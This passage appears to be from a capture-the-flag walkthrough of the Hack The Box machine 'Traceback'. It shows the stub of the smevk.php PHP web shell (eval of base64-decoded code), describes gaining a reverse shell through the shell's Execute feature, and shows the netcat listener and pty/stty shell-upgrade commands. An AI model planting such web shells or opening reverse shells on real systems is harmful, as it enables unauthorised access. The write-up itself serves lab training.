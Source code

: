 ```php
<?php
$smevk ="...";
eval("?>".(base64_decode($smevk)));
?>
```



![smevk.php home page after logging in](../.gitbook/assets/2%20%284%29.png)

After logging in, we are presented with information that the shell has gathered that includes the username and group that we are executing as, the name of the machine and its operating system information, and a listing of the directory of /var/www/html which is the root web directory. Unfortunately, the poor choice of colors makes the page difficult to read and so we should try and get a reverse shell to be able to explore more efficiently. We can do that by executing a bash reverse shell in the Execute section of the web shell as shown in Figure 6-5.

![](../.gitbook/assets/traceback2.png)

Starting a netcat listener on port 6001, we get a hit when the script is executed and we can then upgrade the shell

```bash
webadmin@traceback:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash");'
<ml$ python3 -c 'import pty;pty.spawn("/bin/bash");'
webadmin@traceback:/var/www/html$ ^Z
[1]+ Stopped nc -lvnp 6001
┌─[✗]─[rin@parrot]─[~/boxes/Traceback]
└──╼ $stty raw -echo
┌─[rin@parrot]─[~/boxes/Traceback]
nc -lvnp 6001
webadmin@traceback:/var/www/html$
```
